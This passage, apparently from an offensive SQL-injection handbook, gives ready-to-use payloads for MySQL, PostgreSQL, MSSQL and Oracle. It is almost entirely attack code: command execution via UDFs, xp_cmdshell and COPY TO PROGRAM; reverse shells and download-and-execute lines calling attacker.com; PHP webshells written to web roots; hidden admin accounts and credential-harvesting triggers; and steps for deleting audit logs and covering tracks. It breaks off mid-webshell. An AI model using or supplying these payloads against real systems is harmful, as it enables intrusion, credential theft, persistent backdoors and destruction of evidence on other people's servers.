' UNION SELECT @@plugin_dir,NULL,NULL--

# Write malicious .so/.dll
' UNION SELECT UNHEX('7f454c46...') INTO DUMPFILE '/usr/lib/mysql/plugin/lib_mysqludf_sys.so'--

# Step 3: Create function
'; CREATE FUNCTION sys_exec RETURNS STRING SONAME 'lib_mysqludf_sys.so'--
'; CREATE FUNCTION sys_eval RETURNS STRING SONAME 'lib_mysqludf_sys.so'--

# Step 4: Execute commands
' UNION SELECT sys_eval('whoami'),NULL,NULL--
' UNION SELECT sys_eval('id'),NULL,NULL--
' UNION SELECT sys_exec('nc -e /bin/bash attacker.com 4444'),NULL,NULL--
```

**Method 2: Webshell Through File Write**

```sql
# Write PHP webshell
' UNION SELECT '<?php system($_GET["cmd"]); ?>' INTO OUTFILE '/var/www/html/cmd.php'--

# Access via browser
curl "http://target.com/cmd.php?cmd=whoami"
curl "http://target.com/cmd.php?cmd=cat+/etc/passwd"
```

#### PostgreSQL Command Execution

**Method 1: COPY TO PROGRAM (PostgreSQL 9.3+)**

```sql
# Simple command execution
'; COPY (SELECT '') TO PROGRAM 'whoami > /tmp/output.txt'--

# Reverse shell
'; COPY (SELECT '') TO PROGRAM 'bash -c "bash -i >& /dev/tcp/attacker.com/4444 0>&1"'--

# Create table to capture output
'; CREATE TABLE cmd_output(output text)--
'; COPY cmd_output FROM PROGRAM 'id'--
' UNION SELECT output FROM cmd_output--
'; DROP TABLE cmd_output--
```

**Method 2: PL/pgSQL with system calls**

```sql
# Create command execution function
'; CREATE OR REPLACE FUNCTION system(cstring) RETURNS int AS '/lib/x86_64-linux-gnu/libc.so.6', 'system' LANGUAGE C STRICT--

# Execute commands
'; SELECT system('whoami > /tmp/output.txt')--
```

#### MSSQL Command Execution

**Method 1: xp_cmdshell**

```sql
# Check if xp_cmdshell is enabled
' UNION SELECT CONVERT(int,value) FROM sys.configurations WHERE name='xp_cmdshell'--

# Enable xp_cmdshell (requires sa privileges)
'; EXEC sp_configure 'show advanced options', 1; RECONFIGURE--
'; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE--

# Execute commands
'; EXEC xp_cmdshell 'whoami'--
'; EXEC xp_cmdshell 'net user'--
'; EXEC xp_cmdshell 'net localgroup administrators'--

# Reverse shell
'; EXEC xp_cmdshell 'powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient(''attacker.com'',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + ''PS '' + (pwd).Path + ''> '';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"'--

# Download and execute
'; EXEC xp_cmdshell 'powershell -c "IEX(New-Object Net.WebClient).downloadString(''http://attacker.com/payload.ps1'')"'--
```

**Method 2: OLE Automation**

```sql
# Enable OLE Automation
'; EXEC sp_configure 'show advanced options', 1; RECONFIGURE--
'; EXEC sp_configure 'Ole Automation Procedures', 1; RECONFIGURE--

# Execute commands via WScript.Shell
'; DECLARE @shell INT;
  EXEC sp_OACreate 'wscript.shell', @shell OUTPUT;
  EXEC sp_OAMethod @shell, 'run', null, 'cmd /c whoami > C:\output.txt'--

# Read output
' UNION SELECT BulkColumn FROM OPENROWSET(BULK 'C:\output.txt', SINGLE_CLOB) AS x--
```

**Method 3: SQL Agent Jobs**

```sql
# Create job for command execution
'; USE msdb; EXEC dbo.sp_add_job @job_name = 'CmdExec'--
'; USE msdb; EXEC sp_add_jobstep @job_name = 'CmdExec', @step_name = 'test', 
   @subsystem = 'cmdexec', @command = 'whoami > C:\output.txt'--
'; USE msdb; EXEC dbo.sp_add_jobserver @job_name = 'CmdExec'--
'; USE msdb; EXEC dbo.sp_start_job @job_name = 'CmdExec'--

# Cleanup
'; USE msdb; EXEC dbo.sp_delete_job @job_name = 'CmdExec'--
```

#### Oracle Command Execution

**Method 1: Java Stored Procedures**

```sql
# Check if Java is available
' UNION SELECT DBMS_JAVA.CURRENT_VERSION FROM dual--

# Create Java class for command execution
'; CREATE OR REPLACE AND COMPILE JAVA SOURCE NAMED "OSCmd" AS
  import java.io.*;
  public class OSCmd {
    public static String exec(String cmd) throws Exception {
      StringBuffer output = new StringBuffer();
      Process p = Runtime.getRuntime().exec(cmd);
      BufferedReader reader = new BufferedReader(new InputStreamReader(p.getInputStream()));
      String line;
      while ((line = reader.readLine()) != null) {
        output.append(line + "\n");
      }
      return output.toString();
    }
  }--

# Create PL/SQL wrapper
'; CREATE OR REPLACE FUNCTION run_cmd(cmd IN VARCHAR2) RETURN VARCHAR2
  AS LANGUAGE JAVA NAME 'OSCmd.exec(java.lang.String) return java.lang.String'--

# Grant permissions (requires DBA)
'; EXEC DBMS_JAVA.GRANT_PERMISSION('SCHEMA_NAME', 'java.io.FilePermission', '<<ALL FILES>>', 'execute')--
'; EXEC DBMS_JAVA.GRANT_PERMISSION('SCHEMA_NAME', 'java.lang.RuntimePermission', 'writeFileDescriptor', '')--
'; EXEC DBMS_JAVA.GRANT_PERMISSION('SCHEMA_NAME', 'java.lang.RuntimePermission', 'readFileDescriptor', '')--

# Execute commands
' UNION SELECT run_cmd('whoami') FROM dual--
' UNION SELECT run_cmd('id') FROM dual--
```

**Method 2: DBMS_SCHEDULER**

```sql
# Create external job
'; BEGIN
    DBMS_SCHEDULER.CREATE_JOB(
      job_name => 'os_cmd_job',
      job_type => 'EXECUTABLE',
      job_action => '/bin/bash',
      number_of_arguments => 2,
      enabled => FALSE
    );
    DBMS_SCHEDULER.SET_JOB_ARGUMENT_VALUE('os_cmd_job', 1, '-c');
    DBMS_SCHEDULER.SET_JOB_ARGUMENT_VALUE('os_cmd_job', 2, 'whoami > /tmp/output.txt');
    DBMS_SCHEDULER.ENABLE('os_cmd_job');
  END;--

# Execute
'; EXEC DBMS_SCHEDULER.RUN_JOB('os_cmd_job')--
```

### Privilege Escalation

#### MySQL Privilege Escalation

```sql
# Check current privileges
' UNION SELECT grantee,privilege_type,is_grantable FROM information_schema.user_privileges WHERE grantee LIKE '%current_user%'--

# Check if we're root
' UNION SELECT user(),current_user(),@@hostname--

# Read password hashes
' UNION SELECT user,password FROM mysql.user--
' UNION SELECT user,authentication_string FROM mysql.user--  # MySQL 5.7+

# Create new admin user (requires INSERT privilege)
'; INSERT INTO mysql.user (user, host, authentication_string, Select_priv, Insert_priv, Update_priv, Delete_priv, Create_priv, Drop_priv, Reload_priv, Shutdown_priv, Process_priv, File_priv, Grant_priv, References_priv, Index_priv, Alter_priv, Show_db_priv, Super_priv, Create_tmp_table_priv, Lock_tables_priv, Execute_priv, Repl_slave_priv, Repl_client_priv, Create_view_priv, Show_view_priv, Create_routine_priv, Alter_routine_priv, Create_user_priv, Event_priv, Trigger_priv, Create_tablespace_priv, ssl_type, ssl_cipher, x509_issuer, x509_subject, max_questions, max_updates, max_connections, max_user_connections, plugin, password_expired, password_last_changed, password_lifetime, account_locked) VALUES ('attacker', '%', '*6BB4837EB74329105EE4568DDA7DC67ED2CA2AD9', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', '', '', '', '', 0, 0, 0, 0, 'mysql_native_password', 'N', NULL, NULL, 'N')--

'; FLUSH PRIVILEGES--
```

#### PostgreSQL Privilege Escalation

```sql
# Check current privileges
' UNION SELECT rolname,rolsuper,rolcreaterole,rolcreatedb FROM pg_roles--
' UNION SELECT current_user,session_user--

# Check if superuser
' UNION SELECT usesuper FROM pg_user WHERE usename=current_user--

# Grant superuser (requires proper permissions)
'; ALTER USER current_user WITH SUPERUSER--

# Create new superuser
'; CREATE USER attacker WITH PASSWORD 'password123' SUPERUSER--

# Read password hashes (requires superuser)
' UNION SELECT rolname,rolpassword FROM pg_authid--
```

#### MSSQL Privilege Escalation

```sql
# Check current privileges
' UNION SELECT name FROM fn_my_permissions(NULL, 'SERVER')--
' UNION SELECT IS_SRVROLEMEMBER('sysadmin')--
' UNION SELECT IS_SRVROLEMEMBER('serveradmin')--

# Check database roles
' UNION SELECT IS_MEMBER('db_owner')--

# Impersonation (if IMPERSONATE granted)
'; EXECUTE AS LOGIN = 'sa'--
' UNION SELECT SYSTEM_USER,USER_NAME()--  # Verify impersonation

# Find impersonatable logins
' UNION SELECT DISTINCT b.name FROM sys.server_permissions a 
  INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id 
  WHERE a.permission_name = 'IMPERSONATE'--

# Add current user to sysadmin (requires permissions)
'; EXEC sp_addsrvrolemember 'current_user', 'sysadmin'--

# Create new login
'; CREATE LOGIN attacker WITH PASSWORD = 'Password123!'--
'; EXEC sp_addsrvrolemember 'attacker', 'sysadmin'--
```

#### Oracle Privilege Escalation

```sql
# Check current privileges
' UNION SELECT privilege FROM session_privs--
' UNION SELECT granted_role FROM user_role_privs--

# Check DBA
' UNION SELECT username FROM dba_users WHERE username=user--

# Check if can become DBA
' UNION SELECT grantee,granted_role FROM dba_role_privs WHERE granted_role='DBA'--

# Grant DBA (requires proper permissions)
'; GRANT DBA TO current_user--

# Create new DBA user
'; CREATE USER attacker IDENTIFIED BY password123--
'; GRANT DBA TO attacker--
'; GRANT CONNECT TO attacker--
```

### Network Pivoting Through SQLi

#### Accessing Internal Networks

**MSSQL:**

```sql
# Scan for linked servers
' UNION SELECT name,data_source,provider FROM sys.servers--

# Query linked server
' UNION SELECT * FROM OPENQUERY([LINKED_SERVER], 'SELECT @@version')--

# Execute on linked server
'; EXEC('xp_cmdshell ''whoami''') AT [LINKED_SERVER]--

# Create ad-hoc connection to any server
'; SELECT * FROM OPENROWSET('SQLNCLI', 'Server=internal.server.local;Trusted_Connection=yes;', 'SELECT * FROM master.dbo.sysdatabases')--
```

**MySQL:**

```sql
# UDF for network scanning
' UNION SELECT sys_eval('curl http://internal.server:8080/')--

# SSRF through file read
' UNION SELECT LOAD_FILE('\\\\internal.server\\share\\file.txt')--
```

**PostgreSQL:**

```sql
# Using dblink for network access
'; CREATE EXTENSION dblink--
' UNION SELECT * FROM dblink('host=internal.server dbname=postgres', 'SELECT version()') AS t(v text)--

# Network scanning through COPY
'; COPY (SELECT '') TO PROGRAM 'curl http://internal.server:8080/'--
```

#### Port Scanning

```sql
# MSSQL port scanning
'; EXEC master..xp_cmdshell 'powershell -c "1..1024 | % { $tcp = New-Object Net.Sockets.TcpClient; if($tcp.ConnectAsync(''internal.server'',$_).Wait(100)) { echo ""Port $_ open"" } }"'--

# PostgreSQL port scanning
'; COPY (SELECT '') TO PROGRAM 'for port in {1..1024}; do timeout 0.1 bash -c "echo > /dev/tcp/internal.server/$port" 2>/dev/null && echo "Port $port open"; done > /tmp/scan.txt'--
```

### Data Manipulation Attacks

#### Beyond Reading: Modifying Data

```sql
# Update user password
'; UPDATE users SET password='hacked_hash' WHERE username='admin'--

# Delete security logs
'; DELETE FROM audit_logs WHERE timestamp > '2024-01-01'--
'; TRUNCATE TABLE security_events--

# Add backdoor admin
'; INSERT INTO users (username, password, role) VALUES ('backdoor', 'hash', 'admin')--

# Disable security features
'; UPDATE settings SET value='false' WHERE setting_name='two_factor_auth'--
'; UPDATE settings SET value='0' WHERE setting_name='login_attempts_limit'--

# Modify prices (e-commerce)
'; UPDATE products SET price=0.01 WHERE id=1337--

# Grant access to resources
'; INSERT INTO permissions (user_id, resource, access) VALUES (123, '*', 'full')--
```

#### Stored Procedure Manipulation

```sql
# MSSQL - Modify existing stored procedure
'; ALTER PROCEDURE [dbo].[CheckLogin] @username varchar(50), @password varchar(50)
  AS
  BEGIN
    -- Log credentials
    INSERT INTO hacker_log (username, password, captured_at) VALUES (@username, @password, GETDATE());
    -- Original logic
    SELECT * FROM users WHERE username=@username AND password=@password;
  END--

# Create credential harvesting trigger
'; CREATE TRIGGER credential_harvester ON users
  AFTER INSERT, UPDATE
  AS
  BEGIN
    INSERT INTO attacker_table SELECT * FROM inserted;
  END--
```

### Persistent Access

#### Creating Database Backdoors

**MySQL:**

```sql
# Create hidden admin user
'; INSERT INTO mysql.user (User, Host, authentication_string, Select_priv, Insert_priv, Update_priv, Delete_priv, Create_priv, Drop_priv, Reload_priv, Shutdown_priv, Process_priv, File_priv, Grant_priv, Super_priv) VALUES ('mysql.sys','%','*6BB4837EB74329105EE4568DDA7DC67ED2CA2AD9','Y','Y','Y','Y','Y','Y','Y','Y','Y','Y','Y','Y')--
'; FLUSH PRIVILEGES--

# Create trigger-based backdoor
'; CREATE TRIGGER backdoor BEFORE INSERT ON users
  FOR EACH ROW
  BEGIN
    IF NEW.username = 'backdoor_trigger' THEN
      SET @a = (SELECT sys_eval('nc -e /bin/bash attacker.com 4444'));
    END IF;
  END--
```

**PostgreSQL:**

```sql
# Create hidden superuser
'; CREATE USER "pg_shadow" WITH SUPERUSER PASSWORD 'secret123'--

# Function-based backdoor
'; CREATE OR REPLACE FUNCTION pg_catalog.authenticate(username text, password text) 
  RETURNS boolean AS $$
  BEGIN
    IF username = 'backdoor' AND password = 'secret' THEN
      PERFORM system('nc -e /bin/bash attacker.com 4444');
      RETURN TRUE;
    END IF;
    -- Original authentication logic
    RETURN (SELECT EXISTS(SELECT 1 FROM pg_user WHERE usename = username));
  END;
  $$ LANGUAGE plpgsql--
```

**MSSQL:**

```sql
# Create hidden sysadmin
'; CREATE LOGIN [SYSTEM$LOGIN] WITH PASSWORD = 'P@ssw0rd123!', CHECK_POLICY = OFF--
'; EXEC sp_addsrvrolemember 'SYSTEM$LOGIN', 'sysadmin'--

# Startup stored procedure (runs when SQL Server starts)
'; CREATE PROCEDURE sp_startup_backdoor AS
  EXEC xp_cmdshell 'powershell -c "IEX(IWR http://attacker.com/payload.ps1)"'
  GO--
'; EXEC sp_procoption 'sp_startup_backdoor', 'startup', 'on'--
```

---

## 🗄️ Chapter 11: MySQL/MariaDB Exploitation

### MySQL-Specific Features

```
MySQL Versions and Features:
━━━━━━━━━━━━━━━━━━━━━━━━━━━
MySQL 5.0+ : information_schema
MySQL 5.1+ : UDF improvements
MySQL 5.5+ : Performance Schema
MySQL 5.6+ : GTID, better security
MySQL 5.7+ : JSON support, sys schema
MySQL 8.0+ : Window functions, CTEs
MariaDB 10+: Additional features, compatible
```

### MySQL Information Schema

```sql
# Core system databases
information_schema    # Database metadata
mysql                 # User accounts, privileges
performance_schema    # Server monitoring
sys                   # Simplified views (5.7+)

# Key tables in information_schema
information_schema.schemata        # All databases
information_schema.tables          # All tables
information_schema.columns         # All columns
information_schema.user_privileges # User permissions
information_schema.processlist     # Running queries
```

### Complete MySQL Exploitation Payloads

#### Database Enumeration

```sql
# List all databases
' UNION SELECT schema_name,NULL,NULL FROM information_schema.schemata--
' UNION SELECT GROUP_CONCAT(schema_name),NULL,NULL FROM information_schema.schemata--

# Current database
' UNION SELECT database(),NULL,NULL--

# Database version
' UNION SELECT @@version,NULL,NULL--
' UNION SELECT version(),NULL,NULL--

# Server info
' UNION SELECT @@hostname,@@datadir,@@basedir--
' UNION SELECT @@version_compile_os,@@version_compile_machine,NULL--

# All at once
' UNION SELECT CONCAT_WS(':',database(),user(),@@version,@@hostname),NULL,NULL--
```

#### Table & Column Enumeration

```sql
# List tables in current database
' UNION SELECT table_name,NULL,NULL FROM information_schema.tables WHERE table_schema=database()--

# List all tables with row counts
' UNION SELECT table_name,table_rows,NULL FROM information_schema.tables WHERE table_schema=database()--

# Get all columns from all tables
' UNION SELECT CONCAT(table_name,'.',column_name),data_type,NULL FROM information_schema.columns WHERE table_schema=database()--

# Find specific column names
' UNION SELECT table_name,column_name,NULL FROM information_schema.columns WHERE column_name LIKE '%pass%'--
' UNION SELECT table_name,column_name,NULL FROM information_schema.columns WHERE column_name LIKE '%user%'--
' UNION SELECT table_name,column_name,NULL FROM information_schema.columns WHERE column_name LIKE '%email%'--
' UNION SELECT table_name,column_name,NULL FROM information_schema.columns WHERE column_name LIKE '%credit%'--
' UNION SELECT table_name,column_name,NULL FROM information_schema.columns WHERE column_name LIKE '%secret%'--

# Table structure
' UNION SELECT column_name,column_type,column_key FROM information_schema.columns WHERE table_name='users'--
```

#### User & Privilege Enumeration

```sql
# Current user
' UNION SELECT user(),current_user(),NULL--
' UNION SELECT CONCAT_WS('@',user,host),authentication_string,NULL FROM mysql.user--

# All users
' UNION SELECT CONCAT(user,'@',host),NULL,NULL FROM mysql.user--

# User privileges
' UNION SELECT grantee,privilege_type,is_grantable FROM information_schema.user_privileges--

# Database-specific privileges
' UNION SELECT grantee,table_schema,privilege_type FROM information_schema.schema_privileges--

# File privilege check
' UNION SELECT file_priv,NULL,NULL FROM mysql.user WHERE user=SUBSTRING_INDEX(USER(),'@',1)--

# Check important privileges
' UNION SELECT 
  (SELECT file_priv FROM mysql.user WHERE user=SUBSTRING_INDEX(USER(),'@',1) LIMIT 1),
  (SELECT process_priv FROM mysql.user WHERE user=SUBSTRING_INDEX(USER(),'@',1) LIMIT 1),
  (SELECT super_priv FROM mysql.user WHERE user=SUBSTRING_INDEX(USER(),'@',1) LIMIT 1)--
```

#### Data Extraction

```sql
# Basic extraction
' UNION SELECT username,password,email FROM users--

# With row numbers
' UNION SELECT id,CONCAT(username,':',password),email FROM users--

# All in one (grouped)
' UNION SELECT GROUP_CONCAT(id,':',username,':',password SEPARATOR '\n'),NULL,NULL FROM users--

# Conditional extraction
' UNION SELECT username,password,NULL FROM users WHERE role='admin'--
' UNION SELECT username,password,NULL FROM users WHERE id=1--

# Ordered extraction
' UNION SELECT username,password,NULL FROM users ORDER BY id ASC--

# Paginated extraction
' UNION SELECT username,password,NULL FROM users LIMIT 0,10--
' UNION SELECT username,password,NULL FROM users LIMIT 10,10--
```

#### File Operations

```sql
# Read files (continued)
' UNION SELECT LOAD_FILE('/var/www/html/config.php'),NULL,NULL--
' UNION SELECT LOAD_FILE('C:\\Windows\\System32\\drivers\\etc\\hosts'),NULL,NULL--
' UNION SELECT LOAD_FILE('C:\\xampp\\htdocs\\config.php'),NULL,NULL--

# Read file as hex (for binary files)
' UNION SELECT HEX(LOAD_FILE('/etc/passwd')),NULL,NULL--
' UNION SELECT TO_BASE64(LOAD_FILE('/etc/passwd')),NULL,NULL--

# Check file permissions
' UNION SELECT @@secure_file_priv,NULL,NULL--
# Result:
# - NULL = File operations disabled
# - Empty = Can read/write anywhere
# - Path = Can only access that directory

# Write files
' UNION SELECT 'webshell content',NULL,NULL INTO OUTFILE '/var/www/html/shell.php'--
' UNION SELECT '<?php system($_GET["cmd"]); ?>',NULL,NULL INTO OUTFILE '/tmp/shell.php'--

# Write with full payload
' UNION SELECT '<?php 
if(isset($_REQUEST["cmd"])){
  echo "<pre>";
  $cmd = ($_REQUEST["cmd"]);
  system($cmd);
  echo "</pre>";
  die;
}
?>',NULL,NULL INTO OUTFILE '/var/www/html/cmd.php'--

# Write using INTO DUMPFILE (single row, no escaping)
' UNION SELECT '<?php system($_GET["c"]); ?>' INTO DUMPFILE '/var/www/html/s.php'--

# Write binary file
' UNION SELECT UNHEX('504B0304...') INTO DUMPFILE '/var/www/html/shell.zip'--

# Check write permissions
' UNION SELECT @@global.secure_file_priv,@@datadir,NULL--

# Common writable locations
/var/www/html/
/var/www/html/uploads/
/tmp/
/var/tmp/
C:\inetpub\wwwroot\
C:\xampp\htdocs\
C:\wamp\www\
```

#### MySQL Functions for Exploitation

```sql
# String manipulation
' UNION SELECT CONCAT(username,':',password),NULL,NULL FROM users--
' UNION SELECT CONCAT_WS('|',id,username,email,password),NULL,NULL FROM users--
' UNION SELECT GROUP_CONCAT(username,':',password),NULL,NULL FROM users--
' UNION SELECT GROUP_CONCAT(username,':',password SEPARATOR '<br>'),NULL,NULL FROM users--

# Substring extraction
' UNION SELECT SUBSTRING(password,1,16),NULL,NULL FROM users WHERE id=1--
' UNION SELECT MID(password,1,32),NULL,NULL FROM users WHERE username='admin'--
' UNION SELECT LEFT(password,16),RIGHT(password,16),NULL FROM users--

# Case conversion
' UNION SELECT UPPER(username),LOWER(email),NULL FROM users--

# Hex/Base64 encoding
' UNION SELECT HEX(password),NULL,NULL FROM users--
' UNION SELECT TO_BASE64(password),NULL,NULL FROM users--
' UNION SELECT FROM_BASE64(encoded_data),NULL,NULL FROM secrets--

# Hashing
' UNION SELECT MD5('test'),SHA1('test'),SHA2('test',256)--
' UNION SELECT PASSWORD('mypassword'),NULL,NULL--  # MySQL password hash

# Date/Time
' UNION SELECT NOW(),CURDATE(),CURTIME()--
' UNION SELECT UNIX_TIMESTAMP(),NULL,NULL--
' UNION SELECT FROM_UNIXTIME(1234567890),NULL,NULL--

# Conditionals
' UNION SELECT IF(1=1,'true','false'),NULL,NULL--
' UNION SELECT CASE WHEN 1=1 THEN 'yes' ELSE 'no' END,NULL,NULL--
' UNION SELECT IFNULL(column_name,'default_value'),NULL,NULL FROM table--

# Type conversion
' UNION SELECT CAST(id AS CHAR),CONVERT(price,CHAR),NULL FROM products--

# Math functions
' UNION SELECT FLOOR(RAND()*1000),NULL,NULL--
' UNION SELECT COUNT(*),SUM(price),AVG(price) FROM products--
```

#### MySQL Comment Styles

```sql
# Three comment types in MySQL
-- comment (requires space after --)
# comment (MySQL specific)
/* comment */
/*! MySQL specific code */
/*!50000 Code for MySQL 5.0+ */

# Usage in injection
' UNION SELECT NULL,NULL,NULL-- 
' UNION SELECT NULL,NULL,NULL# 
' UNION SELECT NULL,NULL,NULL/*

# Inline comments for obfuscation
'/**/UNION/**/SELECT/**/NULL,NULL,NULL--
'/*!50000UNION*//*!50000SELECT*/NULL,NULL,NULL--

# Version-specific code
'/*!50000UNION SELECT*/password/*!50000FROM*/users--
```

#### MySQL-Specific Injection Techniques

**Stacked Queries:**

```sql
# MySQL allows multiple statements with mysqli_multi_query()
'; SELECT SLEEP(5);--
'; INSERT INTO users VALUES('hacker','pass');--
'; UPDATE users SET password='hacked' WHERE id=1;--
'; DROP TABLE logs;--

# Create backdoor
'; CREATE TABLE IF NOT EXISTS backdoor (cmd TEXT);--
'; INSERT INTO backdoor VALUES('<?php system($_GET["c"]); ?>');--
'; SELECT cmd FROM backdoor INTO OUTFILE '/var/www/html/bd.php';--
```

**Time-Based Specific to MySQL:**

```sql
# SLEEP function
' AND SLEEP(5)--
' AND IF(1=1,SLEEP(5),0)--
' AND CASE WHEN (1=1) THEN SLEEP(5) ELSE 0 END--

# BENCHMARK (CPU-intensive)
' AND BENCHMARK(10000000,SHA1('test'))--
' AND IF(1=1,BENCHMARK(10000000,MD5('test')),0)--

# Conditional time delays
' AND IF(LENGTH(database())>5,SLEEP(5),0)--
' AND IF(SUBSTRING(database(),1,1)='t',SLEEP(5),0)--
' AND IF(ASCII(SUBSTRING(database(),1,1))>100,SLEEP(5),0)--

# Heavy queries
' AND (SELECT COUNT(*) FROM information_schema.columns A, information_schema.columns B)>0--
```

**Error-Based Unique Payloads:**

```sql
# XPATH injection
' AND extractvalue(1,concat(0x7e,database()))--
' AND extractvalue(1,concat(0x7e,(SELECT GROUP_CONCAT(table_name) FROM information_schema.tables WHERE table_schema=database())))--

# UpdateXML
' AND updatexml(null,concat(0x7e,version()),null)--
' AND updatexml(null,concat(0x7e,(SELECT password FROM users LIMIT 1)),null)--

# EXP overflow
' AND EXP(~(SELECT * FROM (SELECT version())x))--
' AND EXP(~(SELECT * FROM (SELECT password FROM users LIMIT 1)x))--

# GeometryCollection
' AND GeometryCollection((SELECT * FROM (SELECT * FROM(SELECT version())a)b))--

# Polygon
' AND polygon((SELECT * FROM(SELECT * FROM(SELECT version())a)b))--

# MultiPoint
' AND multipoint((SELECT * FROM(SELECT * FROM(SELECT version())a)b))--

# MultiPolygon  
' AND multipolygon((SELECT * FROM(SELECT * FROM(SELECT version())a)b))--

# MultiLineString
' AND multilinestring((SELECT * FROM(SELECT * FROM(SELECT version())a)b))--

# LineString
' AND linestring((SELECT * FROM(SELECT * FROM(SELECT version())a)b))--
```

**Boolean-Based Advanced:**

```sql
# Using REGEXP
' AND (SELECT username FROM users LIMIT 1) REGEXP '^a'--
' AND (SELECT username FROM users LIMIT 1) REGEXP '^ad'--
' AND (SELECT username FROM users LIMIT 1) REGEXP '^adm'--
' AND (SELECT username FROM users LIMIT 1) REGEXP '^admin'--

# Using LIKE
' AND (SELECT password FROM users WHERE id=1) LIKE '5%'--
' AND (SELECT password FROM users WHERE id=1) LIKE '5f%'--

# Using comparison operators
' AND (SELECT COUNT(*) FROM users)>5--
' AND (SELECT LENGTH(password) FROM users WHERE id=1)=32--
' AND ASCII(SUBSTRING((SELECT password FROM users LIMIT 1),1,1))=97--

# Bit operations
' AND ((ASCII(SUBSTRING((SELECT password FROM users LIMIT 1),1,1))>>0)&1)=1--
```

### MySQL User-Defined Functions (UDF)

#### Understanding UDFs

```
UDF = User Defined Function
- Written in C/C++
- Compiled to shared library (.so on Linux, .dll on Windows)
- Placed in MySQL plugin directory
- Can execute OS commands

Requirements:
✓ FILE privilege
✓ Write access to plugin directory
✓ INSERT privilege on mysql.func table
```

#### Complete UDF Attack Chain

**Step 1: Reconnaissance**

```sql
# Check privileges
' UNION SELECT file_priv,NULL,NULL FROM mysql.user WHERE user=SUBSTRING_INDEX(USER(),'@',1)--

# Get plugin directory
' UNION SELECT @@plugin_dir,NULL,NULL--
# Common: /usr/lib/mysql/plugin/ or C:\Program Files\MySQL\MySQL Server X.X\lib\plugin\

# Get architecture
' UNION SELECT @@version_compile_os,@@version_compile_machine,NULL--
# Result: Linux, x86_64 → Need 64-bit .so
# Result: Win64, AMD64 → Need 64-bit .dll

# Check existing UDFs
' UNION SELECT name,dl,NULL FROM mysql.func--
```

**Step 2: Write UDF Library**

```sql
# Hex-encoded UDF library (lib_mysqludf_sys.so for Linux 64-bit)
# This is a minimal example - real payload would be larger

' UNION SELECT 0x7f454c4602010100000000000000000003003e00010000... 
  INTO DUMPFILE '/usr/lib/mysql/plugin/lib_mysqludf_sys.so'--

# For Windows
' UNION SELECT 0x4d5a90000300000004000000ffff0000b800000000000000...
  INTO DUMPFILE 'C:\\Program Files\\MySQL\\MySQL Server 8.0\\lib\\plugin\\lib_mysqludf_sys.dll'--

# Alternative: Write to temporary location first
' UNION SELECT binary_udf_content 
  INTO DUMPFILE '/tmp/lib_mysqludf_sys.so'--

# Then use sys_exec to move it (if you already have it)
' UNION SELECT sys_exec('cp /tmp/lib_mysqludf_sys.so /usr/lib/mysql/plugin/')--
```

**Step 3: Create Functions**

```sql
# Create sys_exec (executes command, returns exit code)
'; CREATE FUNCTION sys_exec RETURNS int SONAME 'lib_mysqludf_sys.so'--

# Create sys_eval (executes command, returns output)
'; CREATE FUNCTION sys_eval RETURNS string SONAME 'lib_mysqludf_sys.so'--

# Create sys_get (read environment variable)
'; CREATE FUNCTION sys_get RETURNS string SONAME 'lib_mysqludf_sys.so'--

# Create sys_set (set environment variable)
'; CREATE FUNCTION sys_set RETURNS int SONAME 'lib_mysqludf_sys.so'--

# Verify creation
' UNION SELECT name,dl,type FROM mysql.func--
```

**Step 4: Execute Commands**

```sql
# Execute without output
' UNION SELECT sys_exec('whoami > /tmp/out.txt'),NULL,NULL--

# Execute with output  
' UNION SELECT sys_eval('whoami'),NULL,NULL--
' UNION SELECT sys_eval('id'),NULL,NULL--
' UNION SELECT sys_eval('cat /etc/passwd'),NULL,NULL--

# Reverse shell
' UNION SELECT sys_eval('bash -c "bash -i >& /dev/tcp/attacker.com/4444 0>&1"'),NULL,NULL--
' UNION SELECT sys_eval('nc -e /bin/bash attacker.com 4444'),NULL,NULL--

# Download and execute
' UNION SELECT sys_eval('wget http://attacker.com/payload.sh -O /tmp/p.sh && bash /tmp/p.sh'),NULL,NULL--
' UNION SELECT sys_eval('curl http://attacker.com/malware.elf -o /tmp/m && chmod +x /tmp/m && /tmp/m'),NULL,NULL--

# Python reverse shell
' UNION SELECT sys_eval('python -c "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"attacker.com\",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call([\"/bin/bash\",\"-i\"])"'),NULL,NULL--
```

**Step 5: Cleanup (Cover Tracks)**

```sql
# Remove functions
'; DROP FUNCTION sys_exec--
'; DROP FUNCTION sys_eval--

# Remove library
' UNION SELECT sys_exec('rm /usr/lib/mysql/plugin/lib_mysqludf_sys.so')--

# Clear logs
'; TRUNCATE TABLE mysql.general_log--
'; SET GLOBAL general_log = 'OFF'--
```

#### Pre-compiled UDF Payloads

**Linux x86_64:**

```bash
# lib_mysqludf_sys.so source
# https://github.com/mysqludf/lib_mysqludf_sys

# Compile
gcc -Wall -I/usr/include/mysql -I. -shared lib_mysqludf_sys.c -o lib_mysqludf_sys.so

# Convert to hex for injection
xxd -p lib_mysqludf_sys.so | tr -d '\n'
```

**Windows x64:**

```bash
# Compile with Visual Studio or MinGW
gcc -shared -o lib_mysqludf_sys.dll lib_mysqludf_sys.c -I"C:\Program Files\MySQL\MySQL Server 8.0\include" -L"C:\Program Files\MySQL\MySQL Server 8.0\lib"

# Convert to hex
certutil -encodehex lib_mysqludf_sys.dll lib_udf.hex
```

### MySQL Webshell Upload via SQLi

#### Method 1: Direct File Write

```sql
# Simple webshell
' UNION SELECT '<?php system($_GET["c"]); ?>' 
  INTO OUTFILE '/var/www/html/shell.php'--

# Full-featured webshell
' UNION SELECT '<?php
if(isset($_REQUEST["cmd"])){
    $cmd = ($_REQUEST["cmd"]);
